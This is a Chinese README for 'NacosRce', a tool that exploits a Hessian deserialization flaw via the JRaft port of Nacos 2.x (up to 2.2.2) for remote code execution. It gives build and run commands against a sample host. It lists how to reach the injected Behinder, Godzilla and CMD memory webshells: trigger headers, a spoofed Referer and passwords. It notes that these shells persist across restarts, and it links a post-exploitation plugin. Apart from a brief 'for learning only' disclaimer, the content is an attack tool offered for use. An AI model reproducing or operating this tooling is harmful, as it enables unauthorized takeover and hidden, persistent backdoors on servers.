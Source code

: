 ## Nacos Hessian 反序列化漏洞利用工具 v0.5

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />
<br />注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**编译方法 **<br />
```bash
mvn clean package
```
<br />**食用方式 **<br />
1. 自动注入内存马并执行命令	java -jar NacosRce.jar Url Jraft端口 "Command"
   <br />	
   ```shell
   java -jar NacosRce.jar http://192.168.90.1:8848/nacos  7848 "whoami"
   ```
2. 只注入内存马
   ```shell
      java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell
   ```
   
   <br />


<br />内存马说明：
<br />一、冰蝎内存马：
   <br />1、需要设置请求头x-client-data:rebeyond
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码rebeyond
   ![img.png](img.png)
<br />二、哥斯拉内存马：
   <br />1、需要设置请求头x-client-data:godzilla
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码是pass 和 key
<br />![img_1.png](img_1.png)
<br />三、CMD内存马：
   <br />1、需要设置请求头x-client-data:cmd
   <br />2、设置Referer:https://www.google.com/
   <br />3、请求头cmd:要执行的命令
<br />![img_2.png](img_2.png)
v0.5版本实现了：
<br />1、不出网漏洞利用
<br />2、可多次发起漏洞利用
<br />3、同时注入冰蝎/哥斯拉/CMD内存马
<br />4、内存马对nacos多版本进行了兼容
<br />
<br />tips:
<br />1、请用jdk1.8
<br />2、适用于 Nacos 2.x <= 2.2.2
<br />3、非集群的也能打哦
<br />4、此内存马重启nacos依然存活
<br />
<br />关于Windows
<br />如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件
```shell
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows
```
<br />如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功
<br />windows 没打成功也许是因为没权限操作C盘或其他原因
<br />
<br />
<br />关于编译<br />
遇到依赖冲突无法编译的可以用以下方式
<br />![img_4.png](img_4.png)<br />
<br />![img_3.png](img_3.png)<br />




项目地址：
https://github.com/c0olw/NacosRce

推荐哥斯拉Nacos后渗透插件：
https://github.com/pap1rman/postnacos
<br />参考文章
<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
